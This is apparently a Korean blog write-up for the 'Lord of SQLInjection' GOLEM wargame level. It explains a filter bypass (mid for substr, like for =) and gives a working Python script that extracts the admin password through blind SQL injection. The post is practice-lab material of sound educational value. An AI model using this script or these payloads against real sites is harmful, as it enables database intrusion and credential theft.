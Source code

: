 ```yaml
---
title: "Lord of SQLInjection - GOLEM"
categories: 
  - SQLi
tags:
  - SQLi
  - 웹해킹
toc: true
---
```


# GOLEM
## 문제 
![img](/assets/images/los/golem1.png)

- 첫번째 쿼리에서 admin의 pw를 구하는 문제다.
- or, and, substr(, = 문자를 이스케이프한다. 
- substr 대신 mid, = 대신 like를 사용하였다.

## 정답
![img](/assets/images/los/golem2.png)

![img](/assets/images/los/golem3.png)

```python
import requests

password = ''

url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php"

cookie = {'PHPSESSID' : 'PHP 세션 아이디'}

pass_len = 0

for length in range(1,30):
    query = "?pw=' || id like 'admin' %%26%%26 %d in (length(pw))%%23" %length
    URL = url+query

    r = requests.get(url=URL, cookies=cookie)

    if 'Hello admin' in str(r.content):
        pass_len = length
        break

    else:
        print(str(length) + "--- X")
		

print("password length : %d" %pass_len)
password=''

for i in range(1, pass_len+1):
    for j in range(38, 127):
        query = "?pw=' || id like 'admin' %%26%%26 ascii(mid(pw,%d,1)) in (%d) %%23" %(i, j)
        URL = url+query
        r = requests.get(url=URL, cookies=cookie)
        
        if 'Hello admin' in str(r.content):
            password += chr(j)
            break

print ('passowrd :  %s' %password)

```